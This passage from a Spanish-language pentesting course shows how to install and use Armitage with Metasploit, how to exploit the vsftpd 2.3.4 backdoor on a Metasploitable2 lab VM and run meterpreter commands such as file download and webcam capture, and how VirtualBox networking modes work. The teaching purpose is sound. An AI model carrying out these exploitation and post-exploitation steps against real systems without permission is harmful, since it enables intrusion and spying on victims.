✔ Visualizar redes atacadas gráficamente.

✔ Identificar vulnerabilidades.

✔ Lanzar exploits con clic.

✔ Gestionar shells (meterpreter).

✔ Automatizar ataques.

✔ Usar en **red teaming** colaborativo (múltiples atacantes en la misma sesión).

✅ Muy usado para **enseñar y aprender**:

> Es mucho más fácil para principiantes que la consola pura.

---

### ✅ **3️⃣ Requisitos previos**

Para usar **Armitage** necesitas:

✅ **Metasploit Framework** instalado.

✅ **Java** (Armitage es una aplicación Java).

✅ **PostgreSQL** (la base de datos que usa Metasploit para gestionar hosts, servicios, exploits).

---

### ✅ **4️⃣ Instalación paso a paso**

#### ✅ A) En Kali Linux

✅ Armitage suele venir **preinstalado**:

```bash
armitage
```

Si no está:

```bash
sudo apt update
sudo apt install armitage
```

✅ Verifica:

```bash
armitage
```

---

#### ✅ B) En Ubuntu / Debian

1️⃣ Instalar Metasploit:

```bash
sudo apt update
sudo apt install metasploit-framework
```

2️⃣ Instalar PostgreSQL:

```bash
sudo apt install postgresql
```

3️⃣ Iniciar PostgreSQL:

```bash
sudo service postgresql start
```

4️⃣ Instalar Armitage:

```bash
sudo apt install armitage
```

✅ Para lanzar:

```bash
armitage
```

---

✅ 🌟 **Nota sobre Java**

Armitage necesita Java:

```bash
java -version
```

Si no tienes:

```bash
sudo apt install default-jre
```

---

### ✅ **5️⃣ Iniciar la base de datos de Metasploit**

Antes de usar Armitage, Metasploit necesita su base de datos:

✅ En Kali:

```bash
sudo systemctl start postgresql
msfdb init
```

✅ Verifica conexión:

```bash
msfconsole
```

```bash
db_status
```

✔ Resultado esperado:

```
Connected to msf
```

✅ Ya puedes cerrar `msfconsole`.

---

### ✅ **6️⃣ Lanzar Armitage**

✅ Simplemente:

```bash
armitage
```

✔ Aparecerá **ventana de conexión**:

✅ Campos típicos:

| Campo    | Valor recomendado     |
| -------- | --------------------- |
| Host     | 127.0.0.1 (localhost) |
| Port     | 55553 (por defecto)   |
| User     | msf                   |
| Password | msf                   |

✅ Haz clic en **Connect**.

✔ Armitage intentará conectarse a Metasploit.

✅ Si sale una ventana de **Start MSF**, elígela y espera que cargue.

---

✅ Cuando termine → abrirá la **interfaz principal**:

🎨 **Ventana dividida en secciones**:

✅ Hosts → mapa de red con iconos.

✅ Console → terminal integrada de msfconsole.

✅ Menús → ataques, exploits, payloads.

✅ Sesiones → gestionar shells abiertas.

---

### ✅ **7️⃣ Uso básico de Armitage**

#### ✅ A) Añadir hosts

✔ Menú → **Hosts** → **Add Hosts**

✔ Escribes IP objetivo, por ejemplo:

```
192.168.1.10
```

---

#### ✅ B) Escanear puertos

✔ Click derecho en el host → **Scan**.

✔ Usará Nmap integrado para descubrir servicios abiertos.

---

#### ✅ C) Ver servicios

✔ Después del escaneo, los servicios aparecen en la parte inferior.

✔ Ejemplo:

```
FTP (21), SSH (22), HTTP (80)
```

---

#### ✅ D) Buscar vulnerabilidades

✔ Click derecho en el host → **Find Attacks**.

✔ Armitage consulta su base y marca exploits disponibles en color rojo o con rayos.

✅ Resultado:

✔ Icono del host cambia → ahora tiene **ataques sugeridos**.

---

#### ✅ E) Lanzar un exploit

✔ Click derecho → **Attack** → elige exploit.

✔ Se abre ventana para configurar:

- RHOSTS (ya está)
- RPORT (ya está)
- PAYLOAD (elige reverse shell o meterpreter)

✅ Haz clic en **Launch**.

---

✅ Resultado esperado:

✔ **Meterpreter shell abierta**.

✔ Icono del host cambia → color verde con rayo.

✔ En la parte inferior → sesión activa.

---

#### ✅ F) Usar Meterpreter

✔ Click derecho en la sesión → **Interact**.

✔ Usar comandos:

```
sysinfo
getuid
download archivo
webcam_snap
```

---

### ✅ **8️⃣ Ejemplo práctico paso a paso**

✅ **Escenario:** Atacar Metasploitable2 en VirtualBox con Kali.

✅ 1️⃣ Iniciar PostgreSQL:

```bash
sudo systemctl start postgresql
msfdb init
```

✅ 2️⃣ Lanzar Armitage:

```bash
armitage
```

✅ 3️⃣ Conectar con:

- Host: 127.0.0.1
- User: msf
- Password: msf

✅ 4️⃣ Añadir IP:

```
192.168.56.101
```

✅ 5️⃣ Scan:

✔ Click derecho → **Scan**.

✅ 6️⃣ Encontrar ataques:

✔ Click derecho → **Find Attacks**.

✅ 7️⃣ Lanzar exploit:

✔ Attack → exploit/unix/ftp/vsftpd_234_backdoor.

✔ Payload: linux/x86/meterpreter/reverse_tcp.

✔ Launch.

✅ 8️⃣ Obtener sesión:

✔ Icono en verde → sesión meterpreter abierta.

---

### ✅ **9️⃣ Ventajas de Armitage**

✅ Gráfica y fácil.

✅ Automatiza búsqueda de ataques.

✅ Compatible con Metasploit DB.

✅ Soporta sesiones múltiples.

✅ Funciones de **equipo** (multiuser).

---

✅ ✔️ **Desventajas:**

- Algo vieja y menos mantenida hoy.
- Requiere Java.
- No incluye todos los módulos más nuevos de Metasploit.

✔️ Alternativa moderna → **Cobalt Strike** (comercial, mucho más avanzado).

---

### ✅ **10️ Resumen de comandos rápidos**

✅ Iniciar base:

```bash
sudo systemctl start postgresql
msfdb init
```

✅ Lanzar:

```bash
armitage
```

✅ En GUI:

- Add Hosts
- Scan
- Find Attacks
- Attack → Launch
- Manage Sessions

---

### ✅ **11️ Enlaces útiles**

✅ Manual oficial:

👉 [https://www.fastandeasyhacking.com/manual](https://www.fastandeasyhacking.com/manual)

✅ Video demo:

👉 [https://www.youtube.com/watch?v=rGchYJ8E3Os](https://www.youtube.com/watch?v=rGchYJ8E3Os)

✅ Metasploit Docs:

👉 [https://docs.metasploit.com](https://docs.metasploit.com)

---

### ✅ ⚠️ 12️ Nota ética

✔️ Solo para laboratorios, VMs o redes donde tengas permiso.

✔️ Práctica segura → TryHackMe, Hack The Box, VulnHub, Metasploitable2.

---

[🔼](#índice)

---

## **54. Diferencias entre adaptador de red en modo Bridge, NAT y Host-Only**

### ✅ 📌 **1️⃣ Modo Bridge (Puente)**



✔ La VM se conecta **como si fuera otro dispositivo físico más** en la misma red que tu computadora.

✅ Es como si conectaras un **cable de red virtual** directamente al mismo switch/router donde está tu PC.

#### 🟢 Características:

- La VM recibe **una IP de tu red local** (DHCP de tu router).
- Tu PC, la VM y otros dispositivos de la red **pueden verse y comunicarse entre sí**.
- La VM puede **acceder a Internet** si tu red local tiene acceso.
- Dispositivos de la red local **pueden acceder a la VM directamente**.

---

#### 📌 **Ejemplo fácil:**

- Tu router doméstico tiene red 192.168.1.0/24.
- Tu PC física → 192.168.1.5
- Tu VM en modo Bridge → 192.168.1.20

✅ Ambas pueden **hacerse ping**:

```
Host$ ping 192.168.1.20
```

---

✅ **Cuándo usar Bridge**:

- Cuando quieres que la VM sea **igual a un dispositivo real en la red**.
- Para **laboratorios de pentesting** (escaneo con Nmap, ataques con Metasploit).
- Para servidores virtuales accesibles en la LAN.

---

---

### ✅ 📌 **2️⃣ Modo NAT (Network Address Translation)**



✔ La VM **usa la conexión de tu PC para salir a Internet**, como si hiciera NAT detrás de tu máquina.

✅ Funciona como tu router doméstico hace con tus dispositivos → traduce las conexiones.

---

#### 🟢 Características:

- La VM recibe una **IP privada** interna de VirtualBox (no de tu router).
- La VM **puede acceder a Internet**.
- Desde tu PC física o la red local **no puedes acceder directamente a la VM**, a menos que configures **puertos redirigidos (Port Forwarding)**.

---

#### 📌 **Ejemplo fácil:**

- Tu red real: 192.168.1.0/24
- Tu PC física → 192.168.1.5
- VM NAT → 10.0.2.15 (dirección privada de VirtualBox NAT)

✅ VM → puede navegar por Internet.

❌ Host → no puede hacer ping directo a VM sin redirección de puertos.

---

✅ **Cuándo usar NAT**:

- Cuando necesitas **Internet en la VM** pero no quieres exponerla en la red local.
- Para **descargar actualizaciones o paquetes**.
- Para **aislarla de la red local** por seguridad.

---

### ✅ 📌 **3️⃣ Modo Host-Only**



✔ La VM solo se conecta **con el Host físico**, no con Internet ni con la red local.

✅ VirtualBox crea un **adaptador virtual** en tu Host, como una red privada entre el Host y la VM.

---

#### 🟢 Características:

- La VM recibe IP de la red **host-only** (VirtualBox DHCP Server).
- La VM **no tiene Internet**.
- La VM **no ve la red local**, solo **el Host**.

---

#### 📌 **Ejemplo fácil:**

- VirtualBox configura la red Host-Only → 192.168.56.0/24
- Host físico → 192.168.56.1
- VM → 192.168.56.101

✅ Puedes **hacer ping entre Host y VM**:

```
Host$ ping 192.168.56.101
```

❌ La VM **no puede acceder a Internet**.

---

✅ **Cuándo usar Host-Only**:

- Para **laboratorios cerrados y seguros** (VMs aisladas).
- Para **pruebas de malware o exploits sin riesgo de salir a Internet**.
- Para **simular redes privadas entre múltiples VMs**.
- Para **comunicación directa solo entre Host y VM**.

---

---

### ✅ 📌 **4️⃣ Comparación sencilla (tabla)**

| Característica        | Bridge                   | NAT                         | Host-Only                      |
| --------------------- | ------------------------ | --------------------------- | ------------------------------ |
| VM obtiene IP de      | Tu router real           | NAT interno de VirtualBox   | DHCP de VirtualBox (Host-Only) |
| Acceso a Internet     | ✅ Sí                    | ✅ Sí                       | ❌ No                          |
| Visible en red local  | ✅ Sí (como otro equipo) | ❌ No (sin port forwarding) | ❌ No                          |
| Comunicación con Host | ✅ Sí                    | ✅ Sí                       | ✅ Sí                          |
| Aislamiento           | ❌ No                    | ⚠️ Parcial                  | ✅ Sí                          |

---

### ✅ 📌 **5️⃣ Ejemplos reales de uso**

✅ **Bridge**:

- Simular un atacante en la misma red local.
- Ejecutar Nmap y Metasploit contra máquinas reales.
- Hacer que la VM sea un servidor accesible desde otros PCs.

---

✅ **NAT**:

- Navegar por Internet desde la VM sin exponerla.
- Descargar actualizaciones.
- Pruebas de software en Internet sin exponer servicios.

---

✅ **Host-Only**:

- Laboratorios de pentesting con Metasploitable.
- Simular redes aisladas.
- Malware analysis en entorno cerrado.

---

### ✅ 📌 **6️⃣ Cómo configurarlo en VirtualBox**

✅ Abrir **VirtualBox**.

✅ Seleccionar la VM → **Configuración** → **Red**.

✅ En **Adaptador 1**, elegir:

- **Conectado a:**

  - **Bridge Adapter** → para Bridge.
  - **NAT** → para NAT.
  - **Host-Only Adapter** → para Host-Only.

✅ Aplicar y cerrar.

---

### ✅ 📌 **7️⃣ Ejemplo de prueba práctica**

✅ Crear una VM de Kali Linux y otra de Metasploitable2.

✅ Configurarlas en modo **Host-Only**.

✔ Ambas tendrán IP en 192.168.56.0/24.

✔ Kali puede atacar Metasploitable, pero **ninguna sale a Internet**.

✔ Seguridad máxima para laboratorios.

---

✅ Otro escenario:

✔ Kali en **Bridge**.

✔ Puede escanear la red real con Nmap.

✔ Se comporta como un equipo físico en tu LAN.

---

### ✅ 📌 **8️⃣ Comandos para verificar IP**

✅ En Linux:

```bash
ip addr
```

o

```bash
ifconfig
```

✅ En Windows:

```powershell
ipconfig
```

---

### ✅ 📌 **9️⃣ Resumen súper corto**

✅ **Bridge**:

> La VM es **igual que un equipo en tu red**.
>
> ✔ IP de tu router.
>
> ✔ Internet y red local.

✅ **NAT**:

> La VM usa **Internet** a través de tu PC.
>
> ✔ Internet.
>
> ❌ No visible en LAN.

✅ **Host-Only**:

> La VM **solo habla con el Host**.
>
> ❌ No Internet.
>
> ✔ Aislada y segura.

---

### ✅ 📌 **10️ ¿Cuándo elegir cada uno?**

✅ **Bridge**:

- Para pentesting real en tu red.
- Para servidores accesibles en LAN.

✅ **NAT**:

- Para tener Internet sin exponer la VM.
- Para desarrollo web, actualizaciones.

✅ **Host-Only**:

- Para laboratorios aislados.
- Para análisis de malware.
- Para entrenamiento seguro.

---

### ✅ 📌 **11️ Enlaces útiles**

✅ VirtualBox manual (red):

👉 [https://www.virtualbox.org/manual/ch06.html](https://www.virtualbox.org/manual/ch06.html)

✅ VMware manual (red):

👉 [https://docs.vmware.com/en/VMware-Workstation-Pro/index.html](https://docs.vmware.com/en/VMware-Workstation-Pro/index.html)

---

[🔼](#índice)

---

| **Inicio**         | **atrás 5**                                 | **Siguiente 7**                                              |
| ------------------ | ------------------------------------------- | ------------------------------------------------------------ |
| [🏠](../README.md) | [⏪](./2_5_Analisis_de_Vulnerabilidades.md) | [⏩](./2_7_Explotacion_y_hacking_de_vulnerabilidades_web.md) |
